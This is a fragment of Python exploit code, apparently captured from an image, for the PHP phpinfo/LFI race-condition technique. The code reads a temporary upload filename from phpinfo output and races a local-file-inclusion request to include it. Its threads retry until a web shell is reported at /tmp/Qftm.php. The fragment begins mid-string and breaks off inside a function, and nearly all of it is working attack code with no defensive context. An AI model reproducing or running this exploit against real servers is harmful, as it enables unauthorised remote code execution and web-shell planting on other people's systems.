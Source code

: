```python
r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i + 17:i + 31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter = 0

class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter += 1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "nGot it! Shell created in /tmp/Qftm.php"
                    self.event.set()

            except socket.error:
                return

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(phpinforeq)
```